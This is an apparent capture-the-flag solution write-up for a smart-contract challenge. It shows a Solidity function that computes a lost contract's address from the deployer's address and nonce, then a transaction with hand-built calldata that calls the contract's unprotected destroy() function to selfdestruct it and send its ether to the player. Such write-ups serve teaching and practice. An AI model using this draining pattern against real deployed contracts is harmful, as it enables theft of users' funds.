 # Answer

Goal: Move ether out of the contract.

## 1. Getting the address

If your local network has an explorer you can just look up the address owner made transfer to. Otherwise we can calculate what address was generated by using this Solidity function:

```solidity
function getNonceBasedContractAddr2(address _deployer, uint256 _nonce) public pure returns (address) {
    bytes memory data;
    if (_nonce == 0x00)         data = abi.encodePacked(bytes1(0xd6), bytes1(0x94), _deployer, bytes1(0x80));
    else if (_nonce <= 0x7f)    data = abi.encodePacked(bytes1(0xd6), bytes1(0x94), _deployer, uint8(_nonce));
    else if (_nonce <= 0xff)    data = abi.encodePacked(bytes1(0xd7), bytes1(0x94), _deployer, bytes1(0x81), uint8(_nonce));
    else if (_nonce <= 0xffff)  data = abi.encodePacked(bytes1(0xd8), bytes1(0x94), _deployer, bytes1(0x82), uint16(_nonce));
    else if (_nonce <= 0xffffff)data = abi.encodePacked(bytes1(0xd9), bytes1(0x94), _deployer, bytes1(0x83), uint24(_nonce));
    else                        data = abi.encodePacked(bytes1(0xda), bytes1(0x94), _deployer, bytes1(0x84), uint32(_nonce));

    bytes32 hash = keccak256(data);

    return address(uint160(uint256(hash)));
}
```

It is using the deployer address and nonce (1) to determine what the address that was or will be generated.

You can verify if the address is correct by using this js line in the browser console:

```js
await getBalance('<generated address>')
```

## 2. Getting the ether out

Getting the eth out at this point is trivial as the contract exposes a `selfdestruct()` call through a public `destroy()` function:

```js
await sendTransaction({
  from: player,
  to: '<generated address>',
  data: '00f55d9d000000000000000000000000<player address>', // destroy() function selector with "to" address
})
```
